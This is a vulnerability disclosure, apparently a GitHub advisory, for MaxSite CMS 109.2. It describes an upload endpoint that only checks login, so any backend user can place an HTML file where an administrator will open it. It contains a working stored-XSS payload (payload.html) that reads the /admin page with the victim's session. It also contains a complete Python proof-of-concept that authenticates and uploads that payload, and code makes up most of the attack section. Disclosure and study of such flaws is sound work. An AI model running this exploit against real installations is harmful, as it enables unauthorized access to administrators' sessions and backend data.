







# MaxSite109.2

The backend upload endpoint has an access-control flaw. A low-privilege backend user can upload a same-origin HTML file without authorization, which can then trigger a stored client-side attack when visited by a higher-privileged user and lead to backend information disclosure.



First, we can see that `application/views/require-maxsite.php` can directly `require()` a Base64-encoded path. There is a filter here that requires the path to end with `-require-maxsite.php`, which looks fairly safe at first glance. However, we can find `application/maxsite/admin/plugins/admin_page/uploads-require-maxsite.php`. This file is interesting because, under `/admin_page`, most files perform an `admin_page_edit` permission check, for example:



Under normal circumstances, a backend `user` is not inherently able to upload page attachments just by logging in. To use the upload entry in the article editor, the administrator must first grant the corresponding page-management permissions in the user's group.

The `admin_page` plugin routes already enforce permission checks:

```php
function admin_page_admin_init($args = array()) 
{
	if ( mso_check_allow('admin_page') ) 
	{
		$this_plugin_url = 'page';
		mso_admin_menu_add('page', $this_plugin_url, t('Все записи'), 2);
		mso_admin_url_hook ($this_plugin_url, 'admin_page_admin');
	}
	
	if ( mso_check_allow('admin_page_new') ) 
	{
		$this_plugin_url = 'page_edit';
		mso_admin_url_hook ($this_plugin_url, 'admin_page_edit');
		
		$this_plugin_url = 'page_new';
		mso_admin_menu_add('page', $this_plugin_url, t('Создать запись'), 1);
		mso_admin_url_hook ($this_plugin_url, 'admin_page_new');	
	}
}

function admin_page_edit($args = array()) 
{
	if ( !mso_check_allow('admin_page_edit') ) 
	{
		echo t('Доступ запрещен');
		return $args;
	}
}

function admin_page_new($args = array()) 
{
	if ( !mso_check_allow('admin_page_new') ) 
	{
		echo t('Доступ запрещен');
		return $args;
	}
}
```

When creating an article, the server also requires `admin_page_new`; if the user does not have `admin_page_publish`, the article status is forcibly changed to `draft`:

```php
if (!mso_check_user_password($user_login, $password, 'admin_page_new'))
    return array('result' => 0, 'description' => 'Login/password incorrect');

if (!mso_check_allow('admin_page_publish', $user_data['users_id'])) $page_status = 'draft';
```

Other AJAX endpoints in the same directory that are related to article editing also require `admin_page_edit`, for example:

```php
// bsave-post-ajax.php
if (!is_login()) die('no login');
if (!mso_check_allow('admin_page_edit')) die('no allow');
```

In other words, under the intended product logic, only backend `user` accounts that have been granted page-management permissions by an administrator should be able to use the page attachment upload feature through the editor.

However, `uploads-require-maxsite.php` does not reuse this permission chain.

This file only performs an `is_login()` check:



But `is_login` only verifies backend login state, and the backend is divided into two groups:



Therefore:

- **Intended behavior**: only backend `user` accounts that were granted page-management permissions by an administrator should be able to upload attachments through the article interface.
- **Actual behavior**: any logged-in backend `user` can bypass the original `admin_page_*` permission checks in the article module, directly invoke the upload endpoint, and write a file into any `uploads/_pages/<page_id>/` directory.

This means that even an ordinary content author, rather than a CMS administrator, may still be able to upload files as long as they know the upload endpoint.

User interface:



Admin:



Next, let us look at the file validation:

```php
$ext = strtolower(substr(strrchr($fn, '.'), 1));

$allowed_ext = explode('|', mso_get_option('allowed_types', 'general', 'mp3|gif|jpg|jpeg|png|zip|txt|rar|doc|rtf|pdf|html|htm|css|xml|odt|avi|wmv|flv|swf|wav|xls|7z|gz|bz2|tgz|webp'));

if (!in_array($ext, $allowed_ext)) die('not allowed');
```

It only filters by extension, but `html` is still allowed.

Then the filename is normalized:

```php
function _upload($up_dir, $fn, $r = array())
{
	// качество картинок задаётся через опцию
	$quality = mso_get_option('upload_resize_images_quality', 'general', 90);
	
	$fn = _slug($fn);
	$ext = strtolower(substr(strrchr($fn, '.'), 1));
	$name = substr($fn, 0, strlen($fn) - strlen($ext) - 1);
	
....

function _slug($slug)
{
	$repl = array(
	"А"=>"a", "Б"=>"b",  "В"=>"v",  "Г"=>"g",   "Д"=>"d",
	"Е"=>"e", "Ё"=>"jo", "Ж"=>"zh",
	"З"=>"z", "И"=>"i",  "Й"=>"j",  "К"=>"k",   "Л"=>"l",
	"М"=>"m", "Н"=>"n",  "О"=>"o",  "П"=>"p",   "Р"=>"r",
	"С"=>"s", "Т"=>"t",  "У"=>"u",  "Ф"=>"f",   "Х"=>"h",
	"Ц"=>"c", "Ч"=>"ch", "Ш"=>"sh", "Щ"=>"shh", "Ъ"=>"",
	"Ы"=>"y", "Ь"=>"",   "Э"=>"e",  "Ю"=>"ju", "Я"=>"ja",

	"а"=>"a", "б"=>"b",  "в"=>"v",  "г"=>"g",   "д"=>"d",
	"е"=>"e", "ё"=>"jo", "ж"=>"zh",
	"з"=>"z", "и"=>"i",  "й"=>"j",  "к"=>"k",   "л"=>"l",
	"м"=>"m", "н"=>"n",  "о"=>"o",  "п"=>"p",   "р"=>"r",
	"с"=>"s", "т"=>"t",  "у"=>"u",  "ф"=>"f",   "х"=>"h",
	"ц"=>"c", "ч"=>"ch", "ш"=>"sh", "щ"=>"shh", "ъ"=>"",
	"ы"=>"y", "ь"=>"",   "э"=>"e",  "ю"=>"ju",  "я"=>"ja",

	# украина
	"Є" => "ye", "є" => "ye", "І" => "i", "і" => "i",
	"Ї" => "yi", "ї" => "yi", "Ґ" => "g", "ґ" => "g",
	
	# беларусь
	"Ў"=>"u", "ў"=>"u", "'"=>"",
	
	# румынский
	"ă"=>'a', "î"=>'i', "ş"=>'sh', "ţ"=>'ts', "â"=>'a',
	
	"«"=>"", "»"=>"", "—"=>"-", "`"=>"", " "=>"-",
	"["=>"", "]"=>"", "{"=>"", "}"=>"", "<"=>"", ">"=>"",

	"?"=>"", ","=>"", "*"=>"", "%"=>"", "$"=>"",

	"@"=>"", "!"=>"", ";"=>"", ":"=>"", "^"=>"", "\""=>"",
	"&"=>"", "="=>"", "№"=>"", "\\"=>"", "/"=>"", "#"=>"",
	"("=>"", ")"=>"", "~"=>"", "|"=>"", "+"=>"", "”"=>"", "“"=>"",
	"'"=>"",

	"’"=>"",
	"—"=>"-", // mdash (длинное тире)
	"–"=>"-", // ndash (короткое тире)
	"™"=>"tm", // tm (торговая марка)
	"©"=>"c", // (c) (копирайт)
	"®"=>"r", // (R) (зарегистрированная марка)
	"…"=>"", // (многоточие)
	"“"=>"",
	"”"=>"",
	"„"=>"",
	
	" "=>"-",
	);
		
	$slug = strtr(trim($slug), $repl);
	$slug = htmlentities($slug); // если есть что-то из юникода
	$slug = strtr(trim($slug), $repl);
	$slug = strtolower($slug);
	
	return $slug;
}
```

It only restricts the filename and extension, so we can craft an HTML file containing malicious JavaScript and upload it without authorization, leading to information disclosure or other attacks:

Payload.html

```html
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <title>payload.html</title>
  <style>
    body {
      font-family: monospace;
      margin: 24px;
      line-height: 1.5;
    }
    pre {
      white-space: pre-wrap;
      word-break: break-word;
      border: 1px solid #ccc;
      padding: 12px;
    }
  </style>
</head>
<body>
  <h1>payload.html</h1>
  <pre id="output">Loading /admin ...</pre>
  <script>
    (async function () {
      const out = document.getElementById('output');
      try {
        const resp = await fetch('/admin', { credentials: 'include' });
        const text = await resp.text();
        out.textContent = text.slice(0, 2000);
      } catch (err) {
        out.textContent = 'Read failed: ' + err;
      }
    }());
  </script>
</body>
</html>
```

PoC:

```py
#!/usr/bin/env python3
import argparse
import html
import http.cookiejar
import re
import sys
import urllib.parse
import urllib.request
from pathlib import Path


DEFAULT_BASE_URL = "http://127.0.0.1/cms"
DEFAULT_PAGE_ID = 1
DEFAULT_FILENAME = "payload.html"
DEFAULT_CMS_ROOT = Path(__file__).resolve().parent / "cms"


def build_parser() -> argparse.ArgumentParser:
    parser = argparse.ArgumentParser(
        description="Upload payload.html to the running phpStudy MaxSite instance under ./cms by reusing your local logged-in session cookie or by logging in with a local username/password."
    )
    parser.add_argument("--base-url", default=DEFAULT_BASE_URL, help="Base URL, for example http://127.0.0.1/cms")
    parser.add_argument("--page-id", type=int, default=DEFAULT_PAGE_ID, help="Target page ID / upload directory")
    parser.add_argument("--filename", default=DEFAULT_FILENAME, help="Filename to upload")
    parser.add_argument(
        "--cms-root",
        default=str(DEFAULT_CMS_ROOT),
        help="Local filesystem path of the running MaxSite instance, default: ./cms",
    )
    parser.add_argument(
        "--payload-file",
        default=str(Path(__file__).with_name(DEFAULT_FILENAME)),
        help="Path to the HTML payload file",
    )
    parser.add_argument("--username", help="Existing local backend username on your phpStudy MaxSite instance")
    parser.add_argument("--password", help="Password for the local backend user")
    parser.add_argument(
        "--cookie",
        help="ci_session=...",
    )
    return parser


def build_url(base_url: str, path: str) -> str:
    return f"{base_url.rstrip('/')}/{path.lstrip('/')}"


def normalize_cookie(cookie: str) -> str:
    cookie = cookie.strip()
    if not cookie:
        raise ValueError("Cookie must not be empty.")
    return cookie


def validate_base_url(base_url: str) -> str:
    parsed = urllib.parse.urlparse(base_url)
    if parsed.scheme not in {"http", "https"}:
        raise ValueError("Base URL must start with http:// or https://")
    if parsed.hostname not in {"127.0.0.1", "localhost"}:
        raise ValueError("This helper is limited to your local phpStudy instance on 127.0.0.1/localhost.")
    return base_url.rstrip("/")


def ensure_upload_dirs(cms_root: Path, page_id: int) -> Path:
    if not cms_root.is_dir():
        raise FileNotFoundError(f"CMS root not found: {cms_root}")

    uploads_root = cms_root / "uploads" / "_pages" / str(page_id)
    mini_dir = uploads_root / "mini"
    thumb_dir = uploads_root / "_mso_i"

    uploads_root.mkdir(parents=True, exist_ok=True)
    mini_dir.mkdir(parents=True, exist_ok=True)
    thumb_dir.mkdir(parents=True, exist_ok=True)

    return uploads_root


def make_opener() -> urllib.request.OpenerDirector:
    cookie_jar = http.cookiejar.CookieJar()
    return urllib.request.build_opener(urllib.request.HTTPCookieProcessor(cookie_jar))


def extract_login_session_id(body: str) -> str:
    patterns = [
        r'name="flogin_session_id"\s+value="([^"]+)"',
        r'value="([^"]+)"\s+name="flogin_session_id"',
    ]

    for pattern in patterns:
        match = re.search(pattern, body, re.IGNORECASE)
        if match:
            return html.unescape(match.group(1))

    raise RuntimeError("Unable to extract flogin_session_id from /admin.")


def request(opener: urllib.request.OpenerDirector, url: str, headers: dict[str, str] | None = None, data: bytes | None = None) -> tuple[int, str]:
    req = urllib.request.Request(url, data=data, method="POST" if data is not None else "GET")
    for key, value in (headers or {}).items():
        req.add_header(key, value)

    with opener.open(req, timeout=30) as resp:
        status = getattr(resp, "status", resp.getcode())
        body = resp.read().decode("utf-8", errors="replace")
        return status, body


def login_with_credentials(opener: urllib.request.OpenerDirector, base_url: str, username: str, password: str) -> None:
    admin_url = build_url(base_url, "/admin")
    _, admin_body = request(opener, admin_url)
    session_id = extract_login_session_id(admin_body)

    login_data = urllib.parse.urlencode(
        {
            "flogin_submit": "1",
            "flogin_redirect": admin_url,
            "flogin_user": username,
            "flogin_password": password,
            "flogin_session_id": session_id,
        }
    ).encode("utf-8")

    _, login_body = request(
        opener,
        build_url(base_url, "/login"),
        headers={
            "Content-Type": "application/x-www-form-urlencoded",
            "Referer": admin_url,
        },
        data=login_data,
    )

    if 'name="flogin_user"' in login_body:
        raise RuntimeError("Login failed. Check the provided local username and password.")


def upload_payload(opener: urllib.request.OpenerDirector, base_url: str, page_id: int, filename: str, payload_bytes: bytes, extra_headers: dict[str, str] | None = None) -> tuple[int, str, str]:
    admin_url = build_url(base_url, "/admin")
    encoded_path = "YWRtaW4vcGx1Z2lucy9hZG1pbl9wYWdlL3VwbG9hZHMtcmVxdWlyZS1tYXhzaXRlLnBocA=="
    upload_url = build_url(base_url, f"/require-maxsite/{encoded_path}")
    headers = {
        "Referer": admin_url,
        "Content-Type": "application/octet-stream",
        "X-Requested-Filename": filename,
        "X-Requested-Fileupdir": str(page_id),
    }
    if extra_headers:
        headers.update(extra_headers)

    status, body = request(
        opener,
        upload_url,
        headers=headers,
        data=payload_bytes,
    )
    uploaded_url = build_url(base_url, f"/uploads/_pages/{page_id}/{filename}")
    return status, body, uploaded_url


def verify_payload(opener: urllib.request.OpenerDirector, uploaded_url: str, extra_headers: dict[str, str] | None = None) -> int:
    headers = {"Referer": uploaded_url}
    if extra_headers:
        headers.update(extra_headers)
    status, _ = request(opener, uploaded_url, headers=headers)
    return status


def main() -> int:
    args = build_parser().parse_args()
    if not args.cookie and not (args.username and args.password):
        print("[!] Provide either --cookie or both --username and --password.", file=sys.stderr)
        return 1

    base_url = validate_base_url(args.base_url)
    cms_root = Path(args.cms_root).resolve()
    payload_path = Path(args.payload_file)

    if not payload_path.is_file():
        print(f"[!] Payload file not found: {payload_path}", file=sys.stderr)
        return 1

    try:
        upload_dir = ensure_upload_dirs(cms_root, args.page_id)
    except Exception as exc:
        print(f"[!] {exc}", file=sys.stderr)
        return 1

    payload_bytes = payload_path.read_bytes()
    opener = make_opener()
    auth_mode = ""
    extra_headers: dict[str, str] | None = None

    try:
        if args.cookie:
            extra_headers = {"Cookie": normalize_cookie(args.cookie)}
            auth_mode = "cookie"
        else:
            login_with_credentials(opener, base_url, args.username, args.password)
            auth_mode = "local credentials"

        upload_status, upload_body, uploaded_url = upload_payload(
            opener,
            base_url,
            args.page_id,
            args.filename,
            payload_bytes,
            extra_headers,
        )
        verify_status = verify_payload(opener, uploaded_url, extra_headers)
    except Exception as exc:
        print(f"[!] {exc}", file=sys.stderr)
        return 1

    uploaded_file = upload_dir / args.filename

    print(f"[+] Auth mode: {auth_mode}")
    print(f"[+] CMS root: {cms_root}")
    print(f"[+] Upload directory prepared: {upload_dir}")
    print(f"[+] Payload file: {payload_path}")
    print(f"[+] Upload status: {upload_status}")
    print(f"[+] Upload response: {upload_body.strip()}")
    print(f"[+] Uploaded URL: {uploaded_url}")
    print(f"[+] Uploaded path: {uploaded_file}")
    print(f"[+] Verification status: {verify_status}")
    return 0


if __name__ == "__main__":
    raise SystemExit(main())

```

If the uploaded HTML is visited by an administrator, part of the source code will be displayed on the page (this depends on your slice). If different JavaScript is used for the attack, the impact can be more severe.


